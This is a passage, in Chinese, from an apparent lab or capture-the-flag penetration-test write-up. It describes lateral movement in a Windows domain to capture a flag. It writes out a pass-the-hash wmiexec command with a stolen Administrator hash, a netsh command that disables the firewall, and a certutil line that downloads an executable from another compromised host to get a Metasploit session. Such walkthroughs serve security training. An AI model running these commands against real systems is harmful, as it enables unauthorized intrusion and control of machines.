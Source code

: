 ![](./images/27.png)

由于已经获取到了域内`Administrator`用户的`hash`，这里直接横向到`Server-Data2`，关闭防火墙后，利用之前拿下的`WEB2`服务作为中间服务，将马子放在上面，通过`certutil`下载马子，上线`MSF`。

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.135

netsh advfirewall set allprofiles state off

C:\Windows\System32\certutil.exe -urlcache -split -f http://10.10.10.131/666.exe C:\666.exe
```

在`C:\Users\Administrator\Desktop`目录下获取到`flag4`
